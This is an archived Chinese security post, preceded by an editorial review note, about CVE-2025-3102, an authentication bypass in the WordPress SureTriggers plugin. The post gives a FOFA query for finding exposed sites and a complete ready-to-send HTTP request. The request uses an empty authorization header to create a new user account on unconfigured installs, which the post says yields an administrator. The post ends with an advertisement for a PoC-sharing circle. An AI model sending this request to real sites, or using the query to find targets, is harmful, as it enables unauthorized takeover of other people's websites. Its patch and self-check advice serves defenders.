






## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：active plugin with no API key configured; &lt;1.0.78 stated, recommends1.0.79

- **来源与引用处置（1）**：未配置API密钥这一必要条件写得明确，应保留，不推广全部安装。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

- **适用与权限边界（2）**：版本写1.0.78之前却修复建议1.0.79，需核1.0.78边界。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **适用与权限边界（3）**：JSON没有指定administrator角色，需说明create_user_if_not_exists默认角色逻辑，登录后台截图不足证明管理员。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（4）**：请求头与JSON缺空行，Host空且Content-Length固定；源码/官方修复链接未给。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **操作与副作用边界（5）**：会创建持久账号，标清状态变更与测试清理。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  WordPress suretriggers 权限绕过漏洞 (CVE-2025-3102) 附POC   
Superhero  Nday Poc   2025-06-02 13:13  
  
  
  
  
  
  
  
内容仅用于学习交流自查使用，由于传播、利用本公众号所提供的  
POC  
信息及  
POC对应脚本  
而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号Nday Poc及作者不为此承担任何责任，一旦造成后果请自行承担！  
  
  
**01**  
  
**漏洞概述**  
  
  
适用于 WordPress 的 SureTriggers： All-in-One Automation Platform 插件容易受到身份验证绕过攻击，从而导致创建管理账户，因为在 1.0.78 之前的所有版本中，“autheticate_user”函数中的“secret_key”值缺少空值检查。这使得未经身份验证的攻击者可以在安装并激活插件但未配置 API 密钥时在目标网站上创建管理员账户。  
**02******  
  
**搜索引擎**  
  
  
FOFA:  
```
body="/wp-content/plugins/suretriggers"
```  
  
  
  
  
**03******  
  
**漏洞复现**  
```
POST /wp-json/sure-triggers/v1/automation/action HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Content-Length: 225
Content-Type: application/json
st_authorization: 
Accept-Encoding: gzip
{"integration": "WordPress", "type_event": "create_user_if_not_exists", "selected_options": {"user_email": "2xiJtgIY2pQi582NHNfDF3PqhC6@F1EZB.com", "user_name": "ubeorc", "password": "Superhero"}, "fields": [], "context": {}}
```  
  
  
  
  
登录后台  
  
  
  
  
**04**  
  
**自查工具**  
  
  
nuclei  
  
  
  
afrog  
  
  
  
xray  
  
  
  
  
**05******  
  
**修复建议**  
  
  
1、关闭互联网暴露面或接口设置访问权限  
  
2、  
更新到版本 1.0.79 或更新的修补版本  
  
  
**06******  
  
**内部圈子介绍**  
  
  
【Nday漏洞实战圈】🛠️   
  
专注公开1day/Nday漏洞复现  
 · 工具链适配支持  
  
 ✧━━━━━━━━━━━━━━━━✧   
  
🔍 资源内容  
  
 ▫️ 整合全网公开  
1day/Nday  
漏洞POC详情  
  
 ▫️ 适配Xray/Afrog/Nuclei检测脚本  
  
 ▫️ 支持内置与自定义POC目录混合扫描   
  
🔄 更新计划   
  
▫️ 每周新增7-10个实用POC（来源公开平台）   
  
▫️ 所有脚本经过基础测试，降低调试成本   
  
🎯 适用场景   
  
▫️ 企业漏洞自查 ▫️ 渗透测试 ▫️ 红蓝对抗   
▫️ 安全运维  
  
✧━━━━━━━━━━━━━━━━✧   
  
⚠️ 声明：仅限合法授权测试，严禁违规使用！  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
